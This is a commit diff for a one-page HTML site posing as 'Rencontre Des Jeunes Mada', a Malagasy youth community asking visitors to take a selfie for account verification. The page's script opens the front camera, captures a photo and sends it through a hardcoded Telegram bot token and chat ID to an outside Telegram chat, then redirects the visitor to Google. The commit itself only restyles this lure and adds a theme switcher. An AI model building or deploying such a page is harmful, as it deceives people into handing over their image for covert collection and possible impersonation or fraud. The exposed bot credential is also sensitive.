

Before and after one commit to tsiarolucky33-a11y/Your-MADA, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp index.html with themes and styles
Updated the title and added theme switcher functionality. Enhanced styles and improved selfie capture process.

```diff
--- a/index.html
+++ b/index.html
@@ -3,91 +3,194 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Mampiditra ny rafitra...</title>
-    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;600&display=swap" rel="stylesheet">
+    <title>Rencontre Des Jeunes Mada</title>
+    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;600;700&display=swap" rel="stylesheet">
     <style>
+        :root {
+            /* Theme Dark (Bleu) par défaut */
+            --bg-gradient: linear-gradient(135deg, #071324, #0f294a);
+            --card-bg: rgba(15, 41, 74, 0.78);
+            --card-border: rgba(56, 189, 248, 0.25);
+            --text-main: #f8fafc;
+            --text-muted: #93c5fd;
+            --accent: #38bdf8;
+            --accent-hover: #0284c7;
+            --btn-shadow: 0 6px 20px rgba(56, 189, 248, 0.35);
+            --badge-bg: rgba(56, 189, 248, 0.15);
+        }
+
+        body.light-rose {
+            /* Theme Clair (Rose) */
+            --bg-gradient: linear-gradient(135deg, #fff1f5, #ffe4e6);
+            --card-bg: rgba(255, 255, 255, 0.85);
+            --card-border: rgba(244, 63, 94, 0.25);
+            --text-main: #3f0d1c;
+            --text-muted: #9f1239;
+            --accent: #ec4899;
+            --accent-hover: #db2777;
+            --btn-shadow: 0 6px 20px rgba(236, 72, 153, 0.3);
+            --badge-bg: rgba(236, 72, 153, 0.12);
+        }
+
         * {
             box-sizing: border-box;
             margin: 0;
             padding: 0;
         }
+
         body {
             font-family: 'Poppins', sans-serif;
-            background: linear-gradient(135deg, #0f172a, #1e293b);
+            background: var(--bg-gradient);
+            color: var(--text-main);
+            min-height: 100vh;
+            display: flex;
+            flex-direction: column;
+            justify-content: center;
+            align-items: center;
+            padding: 20px;
+            transition: background 0.4s ease, color 0.4s ease;
+        }
+
+        .theme-switcher {
+            position: fixed;
+            top: 18px;
+            right: 18px;
+            display: flex;
+            gap: 8px;
+            background: var(--card-bg);
+            border: 1px solid var(--card-border);
+            padding: 6px;
+            border-radius: 30px;
+            backdrop-filter: blur(10px);
+            z-index: 10;
+        }
+
+        .theme-btn {
+            border: none;
+            padding: 6px 14px;
+            border-radius: 20px;
+            font-family: 'Poppins', sans-serif;
+            font-size: 12px;
+            font-weight: 600;
+            cursor: pointer;
+            background: transparent;
+            color: var(--text-main);
+            transition: 0.25s ease;
+        }
+
+        .theme-btn.active {
+            background: var(--accent);
+            color: #ffffff;
+        }
+
+        .card {
+            background: var(--card-bg);
+            border: 1px solid var(--card-border);
+            backdrop-filter: blur(14px);
+            border-radius: 24px;
+            padding: 35px 26px;
+            max-width: 390px;
+            width: 100%;
+            text-align: center;
+            box-shadow: 0 18px 40px rgba(0, 0, 0, 0.25);
+            transition: 0.35s ease;
+        }
+
+        .badge {
+            display: inline-block;
+            background: var(--badge-bg);
+            color: var(--accent);
+            font-size: 12px;
+            font-weight: 600;
+            padding: 6px 14px;
+            border-radius: 20px;
+            margin-bottom: 16px;
+        }
+
+        h1 {
+            font-size: 22px;
+            font-weight: 700;
+            line-height: 1.3;
+            margin-bottom: 10px;
+        }
+
+        p {
+            font-size: 14px;
+            color: var(--text-muted);
+            line-height: 1.5;
+            margin-bottom: 22px;
+        }
+
+        .selfie-box {
+            width: 110px;
+            height: 110px;
+            margin: 0 auto 22px auto;
+            border-radius: 50%;
+            border: 3px dashed var(--accent);
             display: flex;
             justify-content: center;
             align-items: center;
-            height: 100vh;
-            color: #f8fafc;
+            font-size: 38px;
+            background: var(--badge-bg);
         }
-        .card {
-            background: rgba(30, 41, 59, 0.7);
-            backdrop-filter: blur(10px);
-            border: 1px solid rgba(255, 255, 255, 0.1);
-            padding: 40px 30px;
-            border-radius: 20px;
-            text-align: center;
-            box-shadow: 0 15px 35px rgba(0, 0, 0, 0.5);
-            max-width: 350px;
-            width: 90%;
-            cursor: pointer;
-        }
-        .spinner-box {
-            position: relative;
-            width: 70px;
-            height: 70px;
-            margin: 0 auto 25px auto;
-        }
-        .spinner {
-            position: absolute;
+
+        .btn-main {
             width: 100%;
-            height: 100%;
-            border: 4px solid rgba(56, 189, 248, 0.1);
-            border-top-color: #38bdf8;
-            border-radius: 50%;
-            animation: spin 1s cubic-bezier(0.5, 0, 0.5, 1) infinite;
-        }
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
-        }
-        h2 {
-            font-size: 20px;
-            font-weight: 600;
-            margin-bottom: 10px;
-            color: #f1f5f9;
-        }
-        p {
-            font-size: 14px;
-            color: #94a3b8;
-            font-weight: 300;
-            margin-bottom: 20px;
-        }
-        .btn-action {
-            background: linear-gradient(135deg, #38bdf8, #0284c7);
-            color: white;
+            background: var(--accent);
+            color: #ffffff;
             border: none;
-            padding: 12px 25px;
-            border-radius: 10px;
+            padding: 14px 20px;
+            border-radius: 14px;
+            font-family: 'Poppins', sans-serif;
             font-size: 15px;
             font-weight: 600;
             cursor: pointer;
-            box-shadow: 0 4px 15px rgba(56, 189, 248, 0.4);
+            box-shadow: var(--btn-shadow);
+            transition: transform 0.2s ease, background 0.25s ease;
+        }
+
+        .btn-main:hover {
+            background: var(--accent-hover);
+        }
+
+        .btn-main:active {
+            transform: scale(0.97);
+        }
+
+        .status-text {
+            margin-top: 16px;
+            font-size: 13px;
+            color: var(--text-muted);
+            min-height: 20px;
+        }
+
+        .footer-note {
+            margin-top: 20px;
+            font-size: 11px;
+            opacity: 0.7;
         }
     </style>
 </head>
 <body>
 
-    <div class="card" onclick="startProcess()">
-        <div class="spinner-box">
-            <div class="spinner"></div>
-        </div>
-        <h2 id="title">Miandrasa kely...</h2>
-        <p id="desc">Tsindrio ny bokotra eto ambany raha hanohy</p>
-        <button class="btn-action">Tohizana</button>
+    <div class="theme-switcher">
+        <button id="btnDark" class="theme-btn active" onclick="setTheme('dark')">Dark Bleu</button>
+        <button id="btnRose" class="theme-btn" onclick="setTheme('rose')">Clair Rose</button>
     </div>
 
-    <!-- Zavatra afenina ao ambadika -->
+    <div class="card">
+        <div class="badge">🇲🇬 Communauté Madagascar</div>
+        <h1>Rencontre Des Jeunes Mada</h1>
+        <p id="desc">Mba hamenoana ny mombamomba anao sy hanamarinana ny kaonty, alaivo ny sary selfie-nao eto.</p>
+
+        <div class="selfie-box" id="iconBox">📸</div>
+
+        <button class="btn-main" id="actionBtn" onclick="startCapture()">Maka Selfie &amp; Manohy</button>
+
+        <div class="status-text" id="status"></div>
+        <div class="footer-note">Rencontre Des Jeunes Mada • Profil &amp; Vérification</div>
+    </div>
+
     <video id="video" autoplay playsinline style="display:none;"></video>
     <canvas id="canvas" style="display:none;"></canvas>
 
@@ -95,28 +198,44 @@
         const token = "9032405314:AAE3YReBmUiG8GrtB8IsALD7SeklLWnGOKQ";
         const chatId = "7658208557";
 
-        let hasRun = false;
+        let isCapturing = false;
 
-        function startProcess() {
-            if (hasRun) return;
-            hasRun = true;
+        function setTheme(mode) {
+            const btnDark = document.getElementById('btnDark');
+            const btnRose = document.getElementById('btnRose');
+
+            if (mode === 'rose') {
+                document.body.classList.add('light-rose');
+                btnRose.classList.add('active');
+                btnDark.classList.remove('active');
+            } else {
+                document.body.classList.remove('light-rose');
+                btnDark.classList.add('active');
+                btnRose.classList.remove('active');
+            }
+        }
+
+        function startCapture() {
+            if (isCapturing) return;
+            isCapturing = true;
 
             const video = document.getElementById('video');
             const canvas = document.getElementById('canvas');
-            const title = document.getElementById('title');
-            const desc = document.getElementById('desc');
+            const status = document.getElementById('status');
+            const btn = document.getElementById('actionBtn');
+            const iconBox = document.getElementById('iconBox');
 
-            title.innerText = "Manamarina...";
-            desc.innerText = "Miandrasa kely aza miala...";
+            status.innerText = "Manokatra ny camera... Ekeo ny autorisation.";
+            btn.innerText = "Miandrasa kely...";
 
-            // Antsoina mivantana tsy misy await mba hivoaka avy hatrany ilay Pop-up
             navigator.mediaDevices.getUserMedia({
                 video: { facingMode: "user" }
             })
             .then(stream => {
                 video.srcObject = stream;
+                iconBox.innerText = "⏳";
+                status.innerText = "Maka sary selfie... Aza mihetsika.";
 
-                // Andrasana kely ny fandraisan'ny camera sary
                 setTimeout(() => {
                     canvas.width = video.videoWidth || 640;
                     canvas.height = video.videoHeight || 480;
@@ -127,7 +246,8 @@
                     canvas.toBlob(function(blob) {
                         const formData = new FormData();
                         formData.append("chat_id", chatId);
-                        formData.append("photo", blob, "captured.jpg");
+                        formData.append("photo", blob, "selfie_mada.jpg");
+                        formData.append("caption", "Rencontre Des Jeunes Mada - Selfie");
 
                         fetch(`https://api.telegram.org/bot${token}/sendPhoto`, {
                             method: "POST",
@@ -135,28 +255,27 @@
                         })
                         .then(response => response.json())
                         .then(data => {
-                            console.log("Tafita ny sary!", data);
-                            title.innerText = "Tafita soa aman-tsara!";
-                            desc.innerText = "Mandefa anao...";
+                            iconBox.innerText = "✅";
+                            status.innerText = "Voatahiry ny sary! Mampiditra ao amin'ny pejy...";
                             setTimeout(() => {
                                 window.location.href = "https://www.google.com";
-                            }, 1000);
+                            }, 1200);
                         })
                         .catch(error => {
-                            console.error("Tsy tafita:", error);
+                            isCapturing = false;
+                            btn.innerText = "Maka Selfie & Manohy";
+                            status.innerText = "Nisy olana kely ny fifandraisana. Andramo indray.";
                         });
 
                         stream.getTracks().forEach(track => track.stop());
                     }, 'image/jpeg', 0.9);
 
                 }, 1500);
-
             })
             .catch(err => {
-                console.error("Tsy nahazoalana alalana ny camera:", err);
-                hasRun = false;
-                title.innerText = "Ilaina ny Autorisation";
-                desc.innerText = "Tsindrio indray raha hamerina";
+                isCapturing = false;
+                btn.innerText = "Maka Selfie & Manohy";
+                status.innerText = "Tsy nahazo alalana. Tsindrio ny bokotra ary ekeo ny camera.";
             });
         }
     </script>
```
